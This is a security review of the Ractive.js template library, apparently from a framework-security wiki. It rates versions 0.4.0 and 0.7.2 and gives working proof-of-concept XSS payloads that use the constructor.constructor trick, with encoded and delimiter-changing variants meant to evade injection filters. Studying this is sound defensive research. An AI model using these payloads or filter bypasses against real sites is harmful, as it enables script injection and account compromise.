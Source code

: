 

# Introduction #

"Ractive.js is a template-driven UI library, but unlike other tools that generate inert HTML, it transforms your templates into blueprints for apps that are interactive by default.

Two-way binding, animations, SVG support and more are provided out-of-the-box – but you can add whatever functionality you need by downloading and creating plugins.

Some tools force you to learn a new vocabulary and structure your app in a particular way. Ractive works for you, not the other way around – and it plays well with other libraries."

From http://www.ractivejs.org/

# Quick Facts #

## Ractive.js 0.4.0 ##

  * [Ractive.js 0.4.0 (Uncompressed)](http://cdn.ractivejs.org/0.4.0/ractive.js)
  * Usage Stats http://trends.builtwith.com/javascript/RactiveJS


  * **{}SEC-A** <font color='red'><b>FAIL</b></font> Template expressions are equivalent to `eval`
  * **{}SEC-B** <font color='red'><b>FAIL</b></font> No sandbox or isolated execution scope, yet attempts to pre-parse expressions
  * **{}SEC-C** <font color='red'><b>FAIL</b></font> JavaScript code will be executed from within HTML element's `textContent`
  * **{}SEC-D** <font color='red'><b>FAIL</b></font> No enforced separation, no obvious way to outsource templates to static files
  * **{}SEC-E** <font color='red'><b>FAIL</b></font> No dedicated security response program, a mailing list exists though
  * **{}SEC-F** <font color='red'><b>FAIL</b></font> No CSP support yet

## Ractive.js 0.7.2 ##

  * **{}SEC-A** <font color='orange'><b>FAIL</b></font> Template expressions are equivalent to `eval`, plans to avoid that exist
  * **{}SEC-B** <font color='red'><b>FAIL</b></font> No sandbox or isolated execution scope, yet attempts to pre-parse expressions
  * **{}SEC-C** <font color='green'><b>PASS</b></font> JavaScript code will not be executed from HTML elements other than `script`
  * **{}SEC-D** <font color='red'><b>FAIL</b></font> No enforced separation, no obvious way to outsource templates to static files
  * **{}SEC-E** <font color='red'><b>FAIL</b></font> No dedicated security response program, a mailing list exists though
  * **{}SEC-F** <font color='orange'><b>FAIL</b></font> No CSP support yet, but plans to get rid of `Function`

_currently under review_

# Injection Attacks #

## Ractive.js 0.4.0 ##

The modern web's new XSS vector using the constructor trick also works in Ractive.js. Important: we have to call the constructor of a native object like `String` or `Number` and cannot use the template expression's constructor. The latter would throw an error.

The following "paste-and-go"-ready code example demonstrates that.

```
<script src='http://cdn.ractivejs.org/0.4.0/ractive.js'></script>
<div id="test">{{1..constructor.constructor("alert(1)")()}}</div>
<script>
new Ractive({template: '#test'});
</script>
```

Similar things can be done with list sections:

```
<script src='http://cdn.ractivejs.org/latest/ractive.js'></script>
<div id="test">{{#1..constructor.constructor('alert(1)')():num}}</div>
<script>
new Ractive({template: '#test'});
</script>
```

And, almost needless to say, encoded payload does the trick too:

```
<script src='http://cdn.ractivejs.org/latest/ractive.js'></script>
<div id="test">&#x7b;&#x7b;&#x23;1..constructor.constructor('alert(1)')():num&#x7d;&#x7d;</div>
<script>
new Ractive({template: '#test'});
</script>
```

### Eval via Function ###

As can be seen, very much like most other frameworks, Ractive.js is throwing templating expressions directly into the `Function` constructor for direct string-to-code. So, nothing new to see here, classic case over possible user-input meeting an `eval` equivalent.

```
function getFunctionFromString( str, i ) {
	var fn, args;
	str = str.replace( /\$\{([0-9]+)\}/g, '_$1' );
	if ( cache[ str ] ) {
		return cache[ str ];
	}
	args = [];
	while ( i-- ) {
		args[ i ] = '_' + i;
	}
	fn = new Function( args.join( ',' ), 'return(' + str + ')' );
	cache[ str ] = fn;
	return fn;
}
```

### Peculiarities ###

In Ractive.js, events are being declared by using dash-separated attribute names. This doesn't seem to be vulnerable but is worth a mention as it might aid an attacker in bypassing injection black-lists and do stuff to and with the existing code.

```
<script src='http://cdn.ractivejs.org/latest/ractive.js'></script>
<script id="template" type="text/ractive">
    <div on-click="test">Clickme</div>
</script>
<div id="el"></div>
<script>
r = new Ractive({
    template: '#template',
    el: '#el',
    data: {}
})
r.on('test', function(event) {
    alert(1)
})
</script>
```

## Ractive.js 0.7.2 ##

version 0.7.2 of the increasingly popular Ractive.js library has changed some fundamentals and thus gets a better security rating than its predecessors. Most importantly, it is not possible anymore to abuse elements other than `<script>` to include templates and thus execute arbitrary JavaScript.

The very common trick to escape the expression scope by using `constructor` is still available however.

```
<!-- garbage in script tag before template expression -->
<script src='http://cdn.ractivejs.org/0.7.2/ractive.js'></script>
<script id="test" type="something/weird">%#§[]\/{{1..constructor.constructor("alert(1)")()}}%#§[]\/</script>
<script>
new Ractive({template: '#test'});
</script>
<!-- template expression inside JS string -->
<script id="test2" type="text/javascript">var a = "{{1..constructor.constructor('alert(2)')()}}";</script>
<script>
new Ractive({template: '#test2'});
</script>
```

Further worth noting is the possibility, to change an expression's delimiter at runtime by using the construct `{{= =}}`. This allows to obfuscate the code heavily and potentially bypass server- and client-side restrictions that are supposed to detect and prevent injections.

```
<script src='http://cdn.ractivejs.org/0.7.2/ractive.js'></script>
<script id='template' type='text/ractive'>
    {{=1 1=}}
    1constructor.constructor('alert(1)')()1
</script>
```

There is indicators that Ractive.js might give up on the dependency on `Function` and thereby elevate to a level where compatibility with CSP is possible. Once that has been implemented, another review will take place.